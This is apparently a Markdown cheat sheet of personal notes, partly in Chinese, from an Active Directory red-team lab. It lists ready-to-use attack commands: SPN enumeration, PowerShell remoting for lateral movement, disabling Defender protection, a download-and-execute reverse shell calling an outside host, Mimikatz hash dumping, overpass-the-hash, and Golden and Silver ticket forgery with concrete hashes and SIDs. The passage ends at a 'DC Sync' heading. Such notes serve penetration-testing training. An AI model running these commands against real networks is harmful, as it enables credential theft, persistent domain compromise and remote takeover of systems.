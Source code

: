 - List Service SPN
	- `setspn -L {SERVICE NAME}`
		- User Account, Computer Account 只要有 SPN 都可以是 Service Account
	- `setspn -q */*`
		- 列出整個 Domain 的 SPN

## Lateral movement 
- PS Remoting
	- `winrs -r:{HOSTNAME} powershell`
	- `Enter-PSSession -ComputerName {HOSTNAME}`
		- `$Cred = Get-Credential`
		- `Enter-PSSession -ComputerName {HOSTNAME} -Credential $Cred`
		- `Enter-PSSession -ComputerName {HOSTNAME} -Credential {DOMAIN\USER}`
			- 會跳出框框輸入密碼
	- `Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt`
	- `$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local`
		- `Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess`
		- `Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess`
- Find PS Remoting Local Admin Access
	- `Import-Module .\Find-PSRemotingLocalAdminAccess.ps1`
	- `Find-PSRemotingLocalAdminAccess`
- Reverse Shell
	- `powershell iex (New-Object Net.WebClient).DownloadString('http://172.16.100.65:6666/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.100.65 -Port 7777`
## Mimikatz
- `sekurlsa::ekeys` : 拿 kerberos 的 key
- `lsadump::lsa /patch`
	- Extracts hashes from memory by asking the LSA server
	- `/patch` : Only dumps the LM and NT password hashes
- Over Pass The hash (Kerberos)
	- `BetterSafetykatz.exe "sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /run:cmd.exe /exit"`
- Golden Ticket
	- `BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"`
	- User: 要偽造的 User
	- SID: 可以用 `whoami /user` 不要取最後一段，也可以用 PowerView 的 `Get-DomainSID`
	- Hash
		- 可以用 `/rc4` (NTLM)也可以用 `/aes256`
		- 都是使用 krbtgt 的 hash
	- Domain : `dollarcorp.moneycorp.local`
		- 可以用 `Get-NetDomain`獲得
	- 非必要的一些參數
		- id: `500`
			- User RID 預設 500
		- groups
			- 預設 Group 513, 512, 520, 518, 519
		- startoffset
			- 多久後可以開始使用 (分鐘數)
		- endin
			- 預設 AD 設定是 10 小時 (600)
		- renewmax
			- 預設 AD 設定是 7 天 (10080)
		- ptt or ticket
			- ptt : 直接 pass the ticket
			- ticket : 把 ticket 存下來
- Silver Ticket
	- `.\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:83471b07629c4a77e5514d9754f6b853 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"`
		- Target 盡量使用 FQDN
- DC Sync